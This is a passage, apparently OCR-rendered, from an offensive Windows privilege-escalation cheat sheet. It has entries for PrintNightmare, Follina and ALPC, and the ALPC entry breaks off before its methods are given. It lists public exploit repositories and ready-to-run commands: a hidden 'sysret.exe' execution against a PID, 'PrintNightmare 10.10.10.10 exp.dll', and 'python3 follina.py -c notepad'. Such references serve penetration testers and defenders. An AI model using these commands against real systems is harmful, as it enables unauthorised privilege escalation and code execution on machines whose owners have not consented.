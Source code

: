 1\.

execute -H -f sysret.exe -a \"-pid \[pid\]"

<a name="printnightmare"></a>
# PrintNightmare

Domain: Yes

Local Admin: Yes

OS: Windows

Type: 0/1 Exploit

Methods:

1\.

https://github.com/outflanknl/PrintNightmare

2\.

PrintNightmare 10.10.10.10 exp.dll

<a name="folina"></a>
# Folina

Domain: Y/N

Local Admin: Yes

OS: Windows

Type: 0/1 Exploit

Methods:

1\.

https://github.com/JohnHammond/msdt-follina

2\.

python3 follina.py -c \"notepad\"

<a name="alpc"></a>
# ALPC

Domain: Y/N

Local Admin: Yes

OS: Windows

Type: 0/1 Exploit

Methods:
